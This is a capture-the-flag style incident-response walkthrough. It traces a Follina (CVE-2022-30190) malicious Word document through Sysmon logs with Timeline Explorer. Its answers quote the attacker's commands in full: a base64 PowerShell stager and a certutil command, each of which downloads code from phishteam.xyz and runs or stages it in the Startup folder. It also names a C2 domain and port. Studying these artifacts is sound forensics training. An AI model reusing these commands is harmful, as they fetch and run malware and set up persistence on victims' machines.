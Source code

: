 Tempest Incident

In this incident, you will act as an Incident Responder from an alert triaged by one of your Security Operations Center analysts. The analyst has confirmed that the alert has a **CRITICAL** severity that needs further investigation.

As reported by the <span style="color: #d4d0ca;">SOC</span> analyst, the intrusion started from a malicious document. In addition, the analyst compiled the essential information generated by the alert as listed below:

- The malicious document has a **.doc** extension.
- The user downloaded the malicious document via **chrome.exe**.
- The malicious document then executed a chain of commands to attain code execution.

Investigation Guide

To aid with the investigation, you may refer to the cheatsheet crafted by the team applicable to this scenario:

- Start with the events generated by <span style="color: #d4d0ca;">Sysmon</span>.
- EvtxEcmd, Timeline Explorer, and SysmonView can interpret <span style="color: #d4d0ca;">Sysmon</span> logs.
- Follow the child processes of WinWord.exe.
- Use filters such as ParentProcessID or ProcessID to correlate the relationship of each process.
- We can focus on Sysmon events such as Process Creation (Event ID 1) and <span style="color: #d4d0ca;">DNS</span> Queries (Event ID 22) to correlate the activity generated by the malicious document.

Significant Data Sources:

- <span style="color: #d4d0ca;">Sysmon</span>


Q1: The user of this machine was compromised by a malicious document. What is the file name of the document?

Open the Timeline Explorer and open the sysmon.csv that we parsed earlier in the room.

We have two clues from the alert generated so we can either use ".doc" or "chrome.exe" at the search bar on the top right.

![image](https://github.com/user-attachments/assets/17fc0972-bf5c-453e-a0a2-c9c45b54d531)

ANS: free_magicules.doc

Q2: What is the name of the compromised user and machine?
*Format: username-machine name*

We'll be able to see who downloaded or opened the malicious document on the same row.

![image](https://github.com/user-attachments/assets/f8b59666-3a96-4a54-a7fd-d36af10205e2)

ANS: benimaru-TEMPEST

Q3: What is the PID of the Microsoft Word process that opened the malicious document?

We'll use the name of the malicious in the search bar and we can look for Event ID 1 which is Process Creation.

![image](https://github.com/user-attachments/assets/bd34230f-af1a-471c-a8f1-ce9f7b5deb76)

ANS: 496

Q4: Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?

Let's take a note of where and when the malicious file opened and we'll start our investigation from there.

![image](https://github.com/user-attachments/assets/0aa2c51d-9aa6-4a0d-a39d-6bdd8e11f0ac)

We know that the malicious document was opened by PID 496 (winword.exe) and user "benimaru" so we will be filtering the events of that particular process and user.

![image](https://github.com/user-attachments/assets/af2145b5-e640-4300-a3eb-4579cbcbd8d8)

To answer the question, we'll take a closer look at Event IDs 3 and 22 which are "Network Connection" and "DNS Event" respectively.

![image](https://github.com/user-attachments/assets/3a2185e8-c362-4f4d-9b19-678d05c15053)

And once we examine the rows of those records, we'll have our answer.

ANS: 167.71.199.191

Q5: What is the base64 encoded string in the malicious payload executed by the document?

Now we have to find out the Child Processes that PID 496 (winword.exe) created when it opened the malicious document. We can do that by setting PID 496 as the Parent Process which in this case, located at "Payload Data5" column.
The payload will immediately stick out from the "Executable Info" column.

![image](https://github.com/user-attachments/assets/5a23f57a-4462-4e7a-84ca-5db8d1aa38a1)

ANS: JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==

Q6: What is the CVE number of the exploit used by the attacker to achieve a remote code execution?
*Format: XXXX-XXXXX*

Study the payload for a bit and after a bit of googling, we'll find this page: https://lolbas-project.github.io/lolbas/Binaries/Msdt/

![image](https://github.com/user-attachments/assets/0e313d89-df2a-4dff-8e41-c5c31ece67a3)

ANS: 2022-30190

=================================================

<span style="color: #ff5965;">Task 5</span><span style="color: #e5e3df;">Initial Access - Stage 2 execution</span>

Malicious Document - Stage 2

Based on the initial findings, we discovered that there is a stage 2 execution:

- The document has successfully executed an encoded base64 command.
- Decoding this string reveals the exact command chain executed by the malicious document.

Investigation Guide

With the following discoveries, we may refer again to the cheatsheet to continue with the investigation:

- The Autostart execution reflects explorer.exe as its parent process ID.
- Child processes of explorer.exe within the event timeframe could be significant.
- Process Creation (Event ID 1) and File Creation (Event ID 11) succeeding the document execution are worth checking.

Significant Data Sources:

- <span style="color: #d4d0ca;">Sysmon</span>

Answer the questions below

Q1: The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?

Decode the base64

![image](https://github.com/user-attachments/assets/8415f76e-80e3-4e95-8d0d-291f6584ec94)


![image](https://github.com/user-attachments/assets/9a542c9b-a2fe-40e9-8cce-36784425a206)


ANS: C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Q2: The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?

*Format: Remove the double quotes from the log.*

We figure that the payload will autostart and a process will be created with explorer as our parent process. After using the appropriate filters, we found this.

![image](https://github.com/user-attachments/assets/3ec550e9-9524-4cd7-bf1a-98e4ef731712)


ANS: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe

Q3: Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?

Look for the instances of the downloaded "first.exe"

![image](https://github.com/user-attachments/assets/dfbd6b78-a896-4bbd-b266-bf9140585264)


ANS: CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8

Q4: The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker?

*Format: domain:port*

After looking around the events surrounding "first.exe", we found this:

![image](https://github.com/user-attachments/assets/733ba95c-8030-4001-8632-2ca9523f68b3)


We'll also notice that the IP resolve to this:

![image](https://github.com/user-attachments/assets/ea827a27-aaee-48dc-87af-3563a8f6fba7)


ANS: resolvecyber.xyz:8080

